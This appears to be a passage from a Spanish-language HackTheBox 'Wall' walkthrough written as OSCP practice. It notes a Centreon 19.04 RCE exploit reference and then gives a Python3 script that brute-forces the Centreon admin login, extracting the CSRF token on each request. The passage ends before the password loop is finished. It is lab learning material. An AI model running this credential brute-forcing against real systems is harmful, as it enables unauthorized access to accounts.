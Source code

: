 ```bash
Centreon 19.04 - Remote Code Execution                                                                                                        | php/webapps/47069.py
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```
Vemos un Recurso que es para el uso de `METASPLOIT` pero aqui no usamos `METASPLOIT`.. uagghhh!!!xD Vamos para el `OSCP` y no esta permitido
Probamos el segundo exploit y no nos funciona siguiendo atentamente los pasos que nos indica. Asique como estamos ante un panel loguin vamos a hacernos un script molon para hacer
`fuerza bruta` en `python3` como en otras ocasiones =D
```python3
#!/usr/bin/python3
# coding: utf-8
# Usado para la maquina Wall de HTB

import sys
import time
import requests
import signal
import re
import pdb

from pwn import *

def def_handler(sig, frame):
        print("\n[+] Saliendo .. .\n")
        sys.exit(1)

# Crtl+C
signal.signal(signal.SIGINT, def_handler)

# Variables Globales
main_url = "http://10.10.10.157/centreon/index.php"


def makeRequest(password):
# Variable "S" para crear una session con la que poder jugar con peticiones Get/Post en la misma Session
        s = requests.session()
# Variable "R" para arrastrar la Variable anterior "S" para arrastrar la session y poder Trabajar con el "Centreon Token" al hacer la peticion a "MAIN__URL"
        r = s.get(main_url)
# Token en el que filtramos con expresiones Regulares para filtrarlo y pasarlo por cada peticion correctamente
        centreon_token = re.findall(r'type="hidden" value="(.*?)"', r.text)[0]
# Data que Formalizamos (Depende de la propia web)
        login_data = {

        'useralias': 'admin',
        'password': password,
        'submitLogin': 'Connect',
        'centreon_token': centreon_token

        }

        r = s.post(main_url, data=login_data)

# Bucle if para que cuando la frase Credentianls Incorrect NO se encuentren en la Respuesta del Servidor nos reporte la Contraseña Correcta
        if "Your credentials are incorrect." not in r.text:
# Actualizacion de la barra de Progreso P1
                p1.status("La Password ha sido encontrada: %s" % password)
                sys.exit(0)
```